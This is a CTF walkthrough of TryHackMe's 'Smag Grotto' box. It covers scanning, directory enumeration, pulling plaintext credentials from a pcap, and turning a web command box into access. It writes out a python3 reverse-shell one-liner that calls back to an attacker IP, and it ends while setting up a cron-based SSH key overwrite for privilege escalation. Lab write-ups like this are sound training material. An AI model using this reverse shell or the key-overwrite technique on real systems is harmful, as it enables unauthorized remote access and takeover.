 # 'Smag Grotto' box writeup
## Smag Grotto is a CTF box written by JakeDoesSec and available on the [TryHackMe platform](https://tryhackme.com).
# ![bg](images/background.png?raw=true "Title")

+ **We deploy the machine and start with a nmap scan for open ports**

``nmap -sV -sC -oN scan1 10.10.163.139``

+ **There are 2 services running on default ports: ssh and http**

![1](images/nmap_scan_sg.jpg?raw=true "nmap_scan")

+ **Visiting the http site, we are welcomed by a big Smag title with a small announce from the developer of the site**

![2](images/site_sg.png?raw=true "Site")

+ **Let's perform a gobuster to search some directories on the website. I'm using the common.txt wordlist, a default wordlist on kali machines**

``gobuster dir -u http://10.10.163.139/ -w /usr/share/wordlists/dirb/common.txt``


![3](images/dirbuster.jpg?raw=true "gobuster")

+ **We found a mail directory, so let's check it out into the web browser. It seems to be like a mail message left on the website to notify a future migration. The mail was writen with the intention to arrive to the admin of the page**

![4](images/mail_page.png?raw=true "mail_page")

+ **Inside the first Network Migration box of the message, we can spot the dHJhY2Uy.pcap, a linked file which seems to be a packet data of this network. Let's download that file and go into a Wireshark analysis of this packet.**

![5](images/wiresh_packet.png?raw=true "wireshark_analysis")

+ **We can spot a POST login request inside the data packet, so let's follow TCP stream into this packet**

![6](images/tcp_stream.png?raw=true "tcp_stream")

+ **Bingo! We found some credentials in plain text form. Looking in the picture above us, we can see the Host that has been used in the POST login request: development.smag.thm. If we are trying to access that page, we're having trouble finding that site... But, judging on the mails that the developers shared between them, the website suffered a migration, so let's just try to change our hosts list to override the DNS**

``sudo vim /etc/hosts``

![7](images/hosts.jpg?raw=true "hosts")

+ **Now, let's try to access the development.smag.thm/login.php page so we can use our credentials**

![7](images/login1.jpg?raw=true "login")

+ **We are welcomed by a big title 'Enter a command' with a box below. I tried some several linux commands like ls, whoami, etc, but i can't see no output. So i've tried to download a file on the box machine with the wget, hosting a simple python server on mine, just to check if the commands are available and if it's worth trying a reverse shell.**

![8](images/wget.jpg?raw=true "wget")

+ **It's all working, we get the GET request so let's move on to a reverse shell, using python3. I've tried with python but not working, because probably on the machine a python3 is installed.**
  **Firstly, listen to the 1234 port**
``nc -lvnp 1234``

``python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``

 **And here it's our shell, connected with the www-data user. Let's upgrade it to an interactive one**

``python3 -c 'import pty; pty.spawn("/bin/bash")'``

![9](images/entered(2).jpg?raw=true "shell")

+ **Let's look into the crontab file and understand it. We have a cron which tells us that the root user is making an overwriting action every minute through the cat command from the** jake_id_rsa.pub.backup **file to the** authorized_keys **file of the jake user. This means that if we can modify the jake_id_rsa.pub.backup content, we can connect with the jake user on the ssh service.**

![10](images/crontab.jpg?raw=true "crontab")

 **Luckily, the** jake_id_rsa.pub.backup **file has writing permission for every user.**
 
![11](images/fileperm.jpg?raw=true "fileperm")





